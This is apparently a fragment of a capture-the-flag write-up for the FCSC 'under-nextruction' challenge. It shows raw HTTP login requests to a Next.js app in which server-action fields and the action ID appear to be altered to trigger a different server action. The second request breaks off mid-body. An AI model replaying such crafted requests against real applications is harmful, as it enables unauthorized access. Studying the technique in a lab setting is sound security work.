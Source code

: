 ```


------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="1_$ACTION_1:0"

{"id":"606a919935d7a58f741d3b37dfcdb8df0239d8be02","bound":"$@1"}
------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="1_$ACTION_1:1"

[{"success":false,"error":null}]
------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="1_$ACTION_KEY"

k852555183
------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="1_username"

vozec
------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="1_password"

Vozec123!XXX
------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="0"

[{"success":false,"error":null},"$K1"]
------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff--
```


become: 

```
POST /login HTTP/2
Host: under-nextruction.fcsc.fr:2213
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/x-component
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://under-nextruction.fcsc.fr:2213/login
Next-Action: 60119a0e16f4930d77814c521045541c804c123986
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22login%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%2C%22%2Flogin%22%2C%22refresh%22%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Content-Type: multipart/form-data; boundary=----geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Length: 998
Origin: https://under-nextruction.fcsc.fr:2213
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: blue
Priority: u=0
Te: trailers

------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="1_$ACTION_REF_1"


------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="1_$ACTION_1:0"

{"id":"606a919935d7a58f741d3b37dfcdb8df0239d8be02","bound":"$@1"}
------geckoformboundary52ee8d2f1fb48ea549e2e780d3661aff
Content-Disposition: form-data; name="1_$ACTION_1:1"

```

[//]: <> (Wrote By Vozec 27/04/2025)